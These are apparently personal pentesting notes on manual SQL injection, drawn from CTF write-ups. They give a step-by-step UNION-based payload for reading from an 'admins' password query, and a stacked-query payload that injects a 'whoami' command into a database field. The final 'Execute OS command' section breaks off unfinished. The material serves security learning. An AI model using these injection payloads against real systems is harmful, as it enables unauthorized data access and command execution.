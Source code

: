 # Manual SQL Exploitation

## Manual SQLi from scratch

* [https://delayma.wordpress.com/2018/12/12/hacker-101-ctf-writeup-micro-cms-v2-1-3/](https://delayma.wordpress.com/2018/12/12/hacker-101-ctf-writeup-micro-cms-v2-1-3/)
* [https://delayma.wordpress.com/category/ctf-challenges/](https://delayma.wordpress.com/category/ctf-challenges/)
* My notes -&gt; sqli1.txt

## 1\) Force SQL query to print user defined output

* There are many ways in which print user defined input. The below SQL query will print user defined string "CUSTOMMESSAGE"
  * `SELECT 'CUSTOMMESSAGE'`
  * `SELECT TOP 1  'CUSTOMMESSAGE' AS` _`column_name`_ `FROM` _`table_name`_ `WHERE '1' = '1'`

### Example

* Given SQL query : `SELECT password FROM admins WHERE username=\'%s\'`
  * Input `%s` is user defined input.
  * _Payload =_ **%s**
* Step 1 : Make the current SELECT query to print null output.
  * This could be done here by sending invalid username for input `%s` 
  * Here we do not need to close the quote. If we add ending quote we will get syntax error.
  * _Payload_  =  **user\_2**
  * _Final SQL query_  =  **`SELECT password FROM admins WHERE username='user_2'`**
* Step 2 : Now we need to add another SELECT query which will be executed after this select in the same inline.
  * This could be done using `UNION` keyword.
  * Here we need to handle quotes properly to make final SQL query syntax correct. See the final SQL query will already have a ending quote, so payload needs to have a missing ending quote.
  * _Payload =_ **user\_2' UNION SELECT \_\_\_\_\_\_**
  * _Final SQL query  =_  **`SELECT password FROM admins WHERE username='user2' UNION SELECT ______'`**
* Step 3 : Now The last part is to define the SELECT statement such that it will print user defined input.
  * _Payload =_ **user2' UNION SELECT 'CUSTOMMESSAGE**
  * _Final SQL Query =_ **`SELECT password FROM admins WHERE username='user2' UNION SELECT 'CUSTOMMESSAGE'`**

## 2\) Executing Stacked SQL queries

* `SELECT filename FROM photos WHERE id=1; update photos set filename=' || whoami ' where id=3; commit; --`
* Ref : [https://secureops.io/2019/09/magical-image-gallery/](https://secureops.io/2019/09/magical-image-gallery/)

## Execute OS command

* d

